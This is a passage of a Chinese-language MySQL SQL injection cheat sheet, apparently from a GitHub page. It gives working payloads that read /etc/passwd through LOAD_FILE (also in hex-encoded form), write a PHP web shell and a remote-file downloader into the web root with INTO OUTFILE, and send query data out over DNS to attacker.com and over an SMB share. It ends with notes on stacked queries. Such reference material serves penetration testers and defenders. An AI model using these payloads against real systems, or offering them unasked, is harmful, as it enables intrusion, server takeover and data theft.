用户如果具有文件权限，可以读取相应信息。

	LOAD_FILE()

例子：

	SELECT LOAD_FILE('/etc/passwd');
	SELECT LOAD_FILE(0x2F6574632F706173737764);

注意：

1. 文件必须位于服务器主机上
2. LOAD_FILE()的基本目录是@@datadir
3. 文件对Mysql用户必须是可读权限
4. 文件大小必须小于max_allowed_packet
5. max_allowed_pa​​cket的默认大小为1047552字节

##### 写文件

如果用户具有文件权限，可以创建新文件。

	INTO OUTFILE/DUMPFILE

__例子__

	To write a PHP shell:
	SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';
	
	and then access it at:
	http://localhost/shell.php?c=cat%20/etc/passwd
	To write a downloader:
	SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'
	
	and then access it at:
	http://localhost/get.php?f=shell.php&u=http://localhost/c99.txt

__注意__

1. 文件不能用 `INTO OUTFILE`覆盖
2. INTO OUTFILE必须是查询中的最后一个语句。
3. 无法对路径名进行编码，因此需要引号。

##### 带外通道

__DNS 请求__

	SELECT LOAD_FILE(CONCAT('\\\\foo.',(select MID(version(),1,1)),'.attacker.com\\'));

__SMB 请求__

	
	' OR 1=1 INTO OUTFILE '\\\\attacker\\SMBshare\\output.txt



##### 堆积查询

根据PHP应用程序使用哪个驱动程序与数据库进行通信，MySQL可以进行堆栈查询。 

PDO_MYSQL驱动程序支持堆栈查询。 MySQLi（改进的扩展）驱动程序还通过multi_query(）函数支持堆栈查询。
